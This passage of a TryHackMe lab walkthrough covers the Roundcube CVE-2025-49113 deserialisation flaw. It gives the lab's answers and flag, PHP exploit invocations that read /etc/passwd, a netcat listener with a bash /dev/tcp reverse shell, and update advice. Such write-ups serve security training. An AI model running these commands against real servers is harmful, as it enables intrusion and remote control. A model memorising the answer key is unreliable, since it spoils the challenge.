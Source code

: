## Expected Answers

Based on the TryHackMe room:
- **Maggie's Last Name**: `Byte`
- **Flag Location**: `/etc/flag` or similar
- **Flag Value**: `THM{ICE_CUBE_DESERIALISATION}`

## Alternative Exploitation Methods

### Method 1: Direct Command Execution

```bash
# Execute commands directly without shell
php CVE-2025-49113.php $ROUNDCUBE_URL $USERNAME $PASSWORD "cat /etc/passwd"
php CVE-2025-49113.php $ROUNDCUBE_URL $USERNAME $PASSWORD "find /etc -name '*flag*'"
```

### Method 2: Reverse Shell

```bash
# Set up listener
nc -lvnp 4444 &

# Execute reverse shell
php CVE-2025-49113.php $ROUNDCUBE_URL $USERNAME $PASSWORD "bash -c 'bash -i >& /dev/tcp/YOUR_IP/4444 0>&1'"
```

## Lab Challenges

### Challenge 1: Find Maggie's Last Name
- **Task**: One of the users has the first name of Maggie; what is her last name?
- **Answer**: `Byte`

### Challenge 2: Retrieve the Flag
- **Task**: What is the value of the flag saved in /etc?
- **Answer**: `THM{ICE_CUBE_DESERIALISATION}`

## Troubleshooting

- The exploit may take 1-2 minutes to respond
- Sometimes the script shows error messages even when the payload executes successfully
- If connection hangs when using `nc`, try typing commands like `pwd` to confirm execution

## Mitigation Strategies

1. **Update Immediately**: Upgrade to Roundcube 1.5.10 or 1.6.11
2. **Temporary Fix**: Block access to `upload.php` if updating isn't immediately possible
3. **Monitor Traffic**: Look for suspicious POST requests to upload endpoints
